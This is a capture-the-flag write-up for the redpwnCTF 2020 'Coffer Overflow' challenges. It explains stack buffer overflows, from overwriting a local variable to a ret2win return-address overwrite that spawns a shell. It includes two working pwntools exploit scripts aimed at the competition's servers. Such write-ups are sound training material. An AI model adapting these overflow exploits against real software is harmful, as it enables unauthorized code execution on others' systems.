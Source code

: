 ## Coffer Overflow 0

Read source, there's a code var.

It's set to 0. At the end, if it's not 0, a shell is popped.

Pretty simple chall, just spam chars and a shell pops, cat flag.txt

<hr>

## Coffer Overflow 1
Same thing, except code must be 0xcafebabe.

Let's disassemble main, we'll find the difference between our input(rbp-0x20) and the var(rbp-0x8) is 24 bytes, so send 24 bytes + p64(0xcafebabe)

```python
from pwn import *
#p = process("./over0")
p = remote('2020.redpwnc.tf', 31255)
NUM_TO_VAR = 24
payload = b'A' * NUM_TO_VAR + p64(0xcafebabe)
p.sendline(payload)
p.interactive()
```

<hr>

## Coffer Overflow 2



ret2win exploit. There's a function called binFunction.

Our input is at rbp-0x10, so 0x10 + 8 bytes until return address.

Overwrite return address with address of binFunction, which pops a shell.

```python
from pwn import *
e = ELF("./over2")
NUM_TO_RET = 0x10 + 8
padding = b'A' * NUM_TO_RET
retgadget =  0x000000000040053e # ret
payload = flat(padding, retgadget, e.symbols['binFunction'], word_size=64)
#p = e.process()
p = remote('2020.redpwnc.tf', 31908)
p.sendline(payload)
p.interactive()
```
